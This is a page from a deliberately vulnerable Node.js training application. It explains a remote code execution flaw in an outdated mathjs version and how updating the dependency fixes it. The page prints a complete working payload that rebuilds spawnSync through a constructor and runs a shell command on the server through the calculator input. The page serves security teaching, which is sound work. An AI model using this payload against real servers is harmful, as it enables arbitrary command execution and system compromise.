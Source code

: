 # Using Components with Known Vulnerabilities

## mathjs Remote Code Execution

The version of mathjs(https://www.npmjs.com/package/mathjs) library used in the application has a remote code execution vulnerability that allows an attacker to run arbitrary code on the server.

To understand how the exploit works, look at [this](https://capacitorset.github.io/mathjs/)

The calculator implementation uses `mathjs.eval` to evaluate user input at

http://127.0.0.1:9090/app/calc

There is no input validation either, probably because it is going to be a maths equation which will contain symbols

Malicious input that triggers command execution
```
cos.constructor("spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}console.log(a);var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;}")();cos.constructor("return spawnSync('id').output[1]")()
```

Which results in this
![rce](/resources/rce.png "Command Execution")

**Solution**

Modify fixed version to compatible version in `package.json`
```
...
    "flash": "^1.1.0",
    "mathjs": "^3.10.1",   // Add ^ to install latest compatible version
    "md5": "^2.2.1",
...
```

Now install the package again by running `npm install`

**Fixes**

Implemented in the following files

- *package.json*

The fix has been implemented in this [commit](https://github.com/appsecco/dvna/commit/5f1a4ca4c8262419321c3790757ae8719d9676a7)

**Recommendation**

- Dependencies must be updated regularly, and preferably automatically.
- Solutions like [Snyk](https://snyk.io/) and [NSP](https://nodesecurity.io/) can regularly monitor your dependencies and alert you of any vulnerable dependencies.

**Reference**

- <https://www.owasp.org/index.php/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities>
- <https://blog.travis-ci.com/2017-04-20-continuous-security-snyk-travis-ci/>
